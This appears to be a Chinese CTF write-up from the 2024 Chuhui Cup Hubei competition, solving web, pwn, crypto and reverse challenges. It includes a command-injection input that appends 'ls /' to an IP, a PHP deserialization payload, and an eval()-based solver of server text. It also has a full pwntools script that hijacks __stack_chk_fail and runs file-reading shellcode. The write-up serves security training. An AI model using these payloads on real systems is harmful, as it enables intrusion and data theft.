# 2024年第九届“楚慧杯”湖北省网络与数据安全实践能力竞赛 web&pwn&Crypto-先知社区

> **来源**: https://xz.aliyun.com/news/16283  
> **文章ID**: 16283

---

## 速算比赛

题目描述：  
你能在连续在3秒内解出30道数学题吗  
写一个脚本即可：

```
import requests
import re

def solve_math_problems(base_url, num_iterations=31):
    session = requests.Session()

    for _ in range(num_iterations):
        try:
            # 获取题目页面
            response = session.get(base_url)
            response.raise_for_status()  # 检查请求是否成功

            # 提取计算题和正确计数
            calculate_match = re.search(r"Calculate: (.*?)<br>", response.text)
            correct_count_match = re.search(r"Correct Count: (.*?)<br>", response.text)

            if not calculate_match or not correct_count_match:
                print("无法找到计算题或正确计数")
                continue

            Calculate = calculate_match.group(1)
            Correct_Count = correct_count_match.group(1)

            # 计算答案
            answer = eval(Calculate)
            print(f"提交答案：{answer}")

            # 提交答案
            post_response = session.post(base_url, data={"answer": str(answer)})
            post_response.raise_for_status()  # 检查请求是否成功

            # 打印服务器响应
            print(post_response.text)

        except requests.exceptions.RequestException as e:
            print(f"请求发生错误: {e}")

if __name__ == "__main__":
    base_url = ''
    solve_math_problems(base_url)

```



## Sal的图集

题目描述：  
Sal有好多图片，一起来看看吧！能查到什么好东西？


有个查询按钮，随便输入点东西会跳转



  
发现是个python写的服务，可能是ssti漏洞

  
测试发现确实是  
然后使用fenjing梭了  
payload：

```


```



## popmart

题目描述：  
pop也需要命令

  
本题只有个输入框，发现可以命令执行，但是存在限制：输入的内容前半部分必须为IP，后半部分可以为命令，限制总长度为12位。利用0.0.0.0;ls /和0.0.0.0;cat分别得到文件名和文件内容。



  
用nl \*打印一下文件内容

  
查看两条命令的回显后可以看到p0pmart.php这个文件存在反序列化漏洞，绕过后即可读到Flag。仔细阅读代码后发现要得到Flag很简单：先传参wq让其等于"二仙桥"，而后利用extract函数覆盖变量pubcky让其不等于"二仙桥"即可执行反序列化代码。序列化代码中，\_\_wakeup()函数是在对象被实例化后立即调用的，只要让其中的yuki(即where\_you\_go)等于molly的值(也就是"dont\_tell\_you")就可以得到Flag了，那怎么让where\_you\_go等于我们想要的值呢？还记得我们前面说到的extract变量覆盖吗？  
根据上述思路就可以构造Payload

```
<?php
    class popmart{
        public $yuki;
        public $molly;
        public $dimoo;
        public function __construct(){
            $this->yuki='tell me where';
            $this->molly='dont_tell_you';
            $this->dimoo="you_can_guess";
        }
        public function __wakeup(){
            global $flag;
            global $where_you_go;
            $this->yuki=$where_you_go;
            if($this->molly === $this->yuki){
                echo $flag;
            }
        }
    }
    $exploit = new popmart();
    $serialized_exploit = serialize($exploit);
    echo $serialized_exploit;
?>

```

得到序列化内容：O:7:"popmart":3:{s:4:"yuki";s:13:"tell me where";s:5:"molly";s:13:"dont\_tell\_you";s:5:"dimoo";s:13:"you\_can\_guess";}

最终paoload：

```
GET：p0pmart.php?wq=二仙桥

POST：pucky=O:7:"popmart":3:{s:4:"yuki";s:13:"tell me where";s:5:"molly";s:13:"dont_tell_you";s:5:"dimoo";s:13:"you_can_guess";}&where_you_go=dont_tell_you

```



## ddd

题目描述：d是随机生成的 ，要通过n、e通过连分数wiener攻击直接反推d  
1.直接使用CTFTools All In One一把梭。  
  
2.  
task.py

```
from Crypto.Util.number import *
from gmpy2 import *
from libnum import *

flag = b'DASCTF{******}'

p = getPrime(512)
q = getPrime(512)
n = p*q
d = getPrime(256)
e = inverse(d, (p-1)*(q-1))
m = s2n(flag)
c = pow(m, e, n)

print('n = ' + str(n))
print('e = ' + str(e))
print('c = ' + str(c))

'''
n = 114566998957451783636756389276471274690612644037126335470456866443567982817002189902938330449132444558501556339080521014838959058380963759366933946623103869574657553262938223064086322963492884606713973124514306815995276393344755433548846003574038937940253826360659447735554684257197194046341849089254659225497
e = 35489734227210930185586918984451799765619374486784192218215354633053183935617953856556709715097294481614236703293033675674496036691242573294182072757562322996800390363453350727372642264982749305833933966045097125311467413670410802534093354414115267442785896373815076066721029449240889291057288090241124904705
c = 60503455347700500866544596012233537789678841391057706123172519773588895502922586197178148979273264437566411675346207472455036341903878112074983509557751805365618433536738111588239911292341288514123006967218545943520736254346030465088445419278775539026233686559207400401082452551955780877227801939191694370380
'''

```

  
对c/n展开即可

```
# sage 10.4

n = 114566998957451783636756389276471274690612644037126335470456866443567982817002189902938330449132444558501556339080521014838959058380963759366933946623103869574657553262938223064086322963492884606713973124514306815995276393344755433548846003574038937940253826360659447735554684257197194046341849089254659225497
e = 35489734227210930185586918984451799765619374486784192218215354633053183935617953856556709715097294481614236703293033675674496036691242573294182072757562322996800390363453350727372642264982749305833933966045097125311467413670410802534093354414115267442785896373815076066721029449240889291057288090241124904705
c = 60503455347700500866544596012233537789678841391057706123172519773588895502922586197178148979273264437566411675346207472455036341903878112074983509557751805365618433536738111588239911292341288514123006967218545943520736254346030465088445419278775539026233686559207400401082452551955780877227801939191694370380

cf = continued_fraction(e / n)
for i in range(1,1000):
    k = cf.numerator(i)
    d = cf.denominator(i)
    if (e*d - 1) % k == 0:
        m = pow(c,d,n)
        print(bytes.fromhex(hex(m)[2:]))
        # DASCTF{e694f0b4e9556021d1bc9e8deedba575}

```

## Inequable\_Canary

分析主函数：

```
int __cdecl main(int argc, const char **argv, const char **envp)
{
  __int64 v4; // [rsp+8h] [rbp-38h]
  void *retaddr; // [rsp+48h] [rbp+8h] BYREF

  v4 = seccomp_init(2147418112LL, argv, envp);
  seccomp_rule_add(v4, 0LL, 59LL, 0LL);
  seccomp_load(v4);
  setvbuf(_bss_start, 0LL, 2, 0LL);
  setvbuf(stdin, 0LL, 2, 0LL);
  write(1, "I'm Captain Nanhe\n", 0x12uLL);
  write(1, "Say some old spells to start the journey\n", 0x29uLL);
  read(0, &retaddr, 0x15uLL);                   // 直接可以向返回地址写入地址
  return 1;
}

```

read函数可以直接写入任意地址，直接把存在漏洞的vlun函数地址写入，跳转到目标位置

发现hint函数

```
.text:0000000000400817                               ; void hint()
.text:0000000000400817                               public hint
.text:0000000000400817                               hint proc near
.text:0000000000400817                               ; __unwind {
.text:0000000000400817 55                            push    rbp
.text:0000000000400818 48 89 E5                      mov     rbp, rsp
.text:000000000040081B FF E4                         jmp     rsp

```

可以跳转到rsp的gadgets

```
.text:00000000004008EF                               locret_4008EF:                          ; CODE XREF: vuln+C8↑j
.text:00000000004008EF C9                            leave
.text:00000000004008F0 C3                            retn

```

在拿到一个gdagets，leave\_ret

分析vlun函数：

```
unsigned __int64 vuln()
{
  signed __int64 v0; // rax
  char buf[8]; // [rsp+0h] [rbp-40h] BYREF
  char *v3; // [rsp+8h] [rbp-38h]
  char v4[24]; // [rsp+20h] [rbp-20h] BYREF
  unsigned __int64 v5; // [rsp+38h] [rbp-8h]

  v5 = __readfsqword(0x28u);
  write(1, "Tell me the location of the Eye of the Deep Sea\n", 0x30uLL);
  read(0, buf, 0x10uLL);                        // 写入：b'a'*8+p64(elf.got['__stack_chk_fail'])
  write(1, "I have magic\n", 0xDuLL);
  v0 = sys_read(0, v3, 8uLL);                   // 写入leave_ret，将'__stack_chk_fail'got表的地址覆盖为leave_ret的gadgets
  write(1, "Let's go!\n", 0xAuLL);
  read(0, v4, 0x100uLL);                        // 最后写入shellcode，触发溢出调用__stack_chk_fail函数从而调用leave_ret，在触发magic的gadgets，就可以成功执行shellcode
  return __readfsqword(0x28u) ^ v5;
}

```

成功利用劫持\_\_stack\_chk\_fail函数从而绕过cancanary检查，并且成功执行shellcode拿到执行权限！

整个解题脚本：

```
from pwn import*
from struct import pack
import ctypes
context(log_level = 'debug',arch = 'amd64')
#p=process('./canary')
elf=ELF('./canary')
libc=ELF('/root/glibc-all-in-one/libs/2.31-0ubuntu9.16_amd64/libc.so.6')
#libc=ELF('/lib/x86_64-linux-gnu/libc.so.6')
def bug():
    gdb.attach(p)
    pause()
def s(a):
    p.send(a)
def sa(a,b):
    p.sendafter(a,b)
def sl(a):
    p.sendline(a)
def sla(a,b):
    p.sendlineafter(a,b)
def r(a):
    p.recv(a)
def pr(a):
    print(p.recv(a))
def rl(a):
    return p.recvuntil(a)
def inter():
    p.interactive()
def get_addr64():
    return u64(p.recvuntil("\x7f")[-6:].ljust(8,b'\x00'))
def get_addr32():
    return u32(p.recvuntil("\xf7")[-4:])
def get_sb():
    return libc_base+libc.sym['system'],libc_base+libc.search(b"/bin/sh\x00").__next__()
li = lambda x : print('\x1b[01;38;5;214m' + x + '\x1b[0m')
ll = lambda x : print('\x1b[01;38;5;1m' + x + '\x1b[0m')
leave_ret=0x4008EF
magic=0x400818  
s(p64(0x400820)) #发送地址调整到漏洞函数
pay=b'a'*8+p64(elf.got['__stack_chk_fail'])
rl("Deep Sea\n")
s(pay)
rl("magic\n")
pay=p64(leave_ret)
#bug()
s(pay)
payload1=asm(
    '''
    mov rax, 0x67616c662f2e
    push rax
    xor rdi, rdi
    sub rdi, 100
    mov rsi, rsp
    xor edx, edx
    xor r10, r10
    push SYS_openat
    pop rax
    syscall


    mov rdi, 1
    mov rsi, 3
    push 0
    mov rdx, rsp
    mov r10, 0x100
    push SYS_sendfile
    pop rax
    syscall
    '''
)
pay=p64(magic)*6+payload1
rl("Let's go!")
s(pay)
inter()

```

## zistel

动态调试找到关键比较位置：



提取出密钥数据：



```
0000001000730 dword_1000730 dd 33293158h              ; DATA XREF: sub_10021BA+14D↓r
.rodata:0000000001000734 dd 60760211h
.rodata:0000000001000738 dd 42185F46h
.rodata:000000000100073C dd 63746F29h
```


动态发现关键算法函数

```
__int64 __fastcall sub_10024A4(__int64 a1, __int64 a2, __int64 a3, __m128 _XMM0)
{

  _RSI = v18;
  __asm
  {
    vxorps  xmm0, xmm0, xmm0
    vmovaps [rsp+0A8h+var_A8], xmm0
    vxorps  xmm0, xmm0, xmm0
  }
  v17 = a3;
  __asm
  {
    vmovups ymmword ptr [rsi+20h], ymm0
    vmovups ymmword ptr [rsi], ymm0
    vmovups ymmword ptr [rsi+30h], ymm0
    vzeroupper
  }
  sub_100257D(a2, *&_XMM0);
  v9 = 0LL;
  while ( v9 != 16 )
  {
    if ( (v9 & 7) != 0 )
    {
      ++v9;
    }
    else
    {
      v10 = *(a1 + v9);
      v11 = *(a1 + v9 + 4);
      for ( i = 0LL; ; ++i )
      {
        v13 = v11;
        if ( i == 20 )
          break;
        v11 = v10 ^ sub_100261B(v18[i], v11);
        v10 = v13;
      }
      *(&v16 + v9) = v11;
      *(&v16 + v9 + 1) = BYTE1(v11);
      *(&v16 + v9 + 2) = BYTE2(v11);
      *(&v16 + v9 + 3) = HIBYTE(v11);
      *(&v16 + v9 + 4) = v10;
      *(&v16 + v9 + 5) = BYTE1(v10);
      *(&v16 + v9 + 6) = BYTE2(v10);
      *(&v16 + v9++ + 7) = HIBYTE(v10);
    }
  }
  __asm { vmovaps xmm0, [rsp+0A8h+var_A8] }
  result = v17;
  __asm { vmovups xmmword ptr [rax], xmm0 }
  return result;
}

```

发现这个算法逆运算周就可以得到类似于rc4加密

exp.c

```
#include <stdio.h>
#include<stdint.h>


int main() {

    uint32_t s1[] = { 0x33293158, 0x60760211, 0x42185F46, 0x63746F29,0 };

    uint32_t s2[] = { 0xBBDBD183, 0x05340F2E, 0xBEEFDEAD, 0xBBDBD183, 0x05340F2E, 0xBEEFDEAD, 0xBBDBD183, 0x05340F2E, 0xBEEFDEAD, 0xBBDBD183, 0x05340F2E, 0xBEEFDEAD, 0xBBDBD183, 0x05340F2E, 0xBEEFDEAD, 0xBBDBD183, 0x05340F2E, 0xBEEFDEAD, 0xBBDBD183, 0x05340F2E };

    int s3[1024] = { 0 };
    for (int i = 0; i < 0x100; i++) {
        s3[i] = i & 3;
    }

    for (int i = 0; i < 4; i += 2) {
        uint32_t b = s1[i], a = s1[i + 1];
        for (int j = 19; j >= 0; j--) {
            uint32_t c = a;
            a ^= s2[j];
            for (int k = 0; k < 4; k++) {
                int tmp = s3[(s2[j] >> (k * 8)) & 0xff];
                uint32_t temp = (a >> (k * 8)) & 0xff;
                *(((uint8_t*)&a) + k) = *(((uint8_t*)&a) + tmp);
                *(((uint8_t*)&a) + tmp) = temp;
            }
            a ^= s2[j];
            a ^= b;
            b = c;
        }
        s1[i] = a;
        s1[i + 1] = b;
    }
    printf("%s", (char*)s1);


    return 0;
}

```
